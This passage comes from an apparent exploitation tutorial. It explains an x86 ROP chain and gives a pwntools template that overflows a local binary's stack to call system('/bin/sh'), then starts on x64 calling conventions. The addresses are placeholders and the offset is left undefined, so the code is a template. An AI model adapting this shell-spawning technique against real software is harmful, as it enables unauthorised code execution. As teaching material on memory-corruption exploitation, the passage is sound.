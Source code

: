 Using **pwntools**, we prepare the stack for the ROP chain execution as follows aiming to execute `system('/bin/sh')`, note how the chain starts with:

1. A `ret` instruction for alignment purposes (optional)
2. Address of `system` function (supposing ASLR disabled and known libc, more info in [[ret2lib/README.md|Ret2lib]])
3. Placeholder for the return address from `system()`
4. `"/bin/sh"` string address (parameter for system function)

```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadc0de

# A gadget to control the return address, typically found through analysis
ret_gadget = 0xcafebabe  # This could be any gadget that allows us to control the return address

# Construct the ROP chain
rop_chain = [
    ret_gadget,    # This gadget is used to align the stack if necessary, especially to bypass stack alignment issues
    system_addr,   # Address of system(). Execution will continue here after the ret gadget
    0x41414141,    # Placeholder for system()'s return address. This could be the address of exit() or another safe place.
    bin_sh_addr    # Address of "/bin/sh" string goes here, as the argument to system()
]

# Flatten the rop_chain for use
rop_chain = b''.join(p32(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```

## ROP Chain in x64 Example

### **x64 (64-bit) Calling conventions**

- Uses the **System V AMD64 ABI** calling convention on Unix-like systems, where the **first six integer or pointer arguments are passed in the registers `RDI`, `RSI`, `RDX`, `RCX`, `R8`, and `R9`**. Additional arguments are passed on the stack. The return value is placed in `RAX`.
- **Windows x64** calling convention uses `RCX`, `RDX`, `R8`, and `R9` for the first four integer or pointer arguments, with additional arguments passed on the stack. The return value is placed in `RAX`.
- **Registers**: 64-bit registers include `RAX`, `RBX`, `RCX`, `RDX`, `RSI`, `RDI`, `RBP`, `RSP`, and `R8` to `R15`.
